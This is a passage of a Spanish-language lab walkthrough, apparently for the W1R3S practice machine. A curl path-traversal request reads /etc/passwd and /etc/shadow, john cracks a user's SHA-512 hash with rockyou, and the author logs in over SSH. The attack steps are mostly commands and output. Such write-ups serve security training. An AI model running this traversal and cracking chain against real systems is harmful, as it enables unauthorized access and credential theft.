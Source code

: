 Probamos la vulnerabilidad.

```bash
❯ curl -s --data-urlencode urlConfig=../../../../../../../../../etc/passwd http://10.11.12.18/administrator/alerts/alertConfigField.php

root:x:0:0:root:/root:/bin/bash
w1r3s:x:1000:1000:w1r3s,,,:/home/w1r3s:/bin/bash
```

Probamos listar el archivo `/etc/shadow`.

```bash
root:$6$vYcecPCy$JNbK.hr7HU72ifLxmjpIP9kTcx./ak2MM3lBs.Ouiu0mENav72TfQIs8h1jPm2rwRFqd87HDC0pi7gn9t7VgZ0:17554:0:99999:7:::
w1r3s:$6$xe/eyoTx$gttdIYrxrstpJP97hWqttvc5cGzDNyMb0vSuppux4f2CcBv3FwOt2P1GFLjZdNqjwRuP3eUjkgb/io7x9q1iP.:17567:0:99999:7:::
```

Tenemos las contraseñas de dos usuarios, intentamos crackearlas con `john` y obtenemos la clave del usuario `w1r3s`.

```bash
❯ john --wordlist=/usr/share/wordlists/rockyou.txt users
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
computer         (w1r3s)
1g 0:00:00:00 DONE (2025-02-13 20:27) 4.545g/s 4654p/s 4654c/s 4654C/s 123456..bethany
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Nos conectamos por `SSH`{: .filepath}.

```bash
❯ ssh w1r3s@10.11.12.18
The authenticity of host '10.11.12.18 (10.11.12.18)' can't be established.
ED25519 key fingerprint is SHA256:Bue5VbUKeMSJMQdicmcMPTCv6xvD7I+20Ki8Um8gcWM.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.11.12.18' (ED25519) to the list of known hosts.
----------------------
Think this is the way?
----------------------
Well,........possibly.
----------------------
w1r3s@10.11.12.18's password:
Welcome to Ubuntu 16.04.3 LTS (GNU/Linux 4.13.0-36-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

102 packages can be updated.
0 updates are security updates.

.....You made it huh?....
Last login: Mon Jan 22 22:47:27 2018 from 192.168.0.35
w1r3s@W1R3S:~$
```
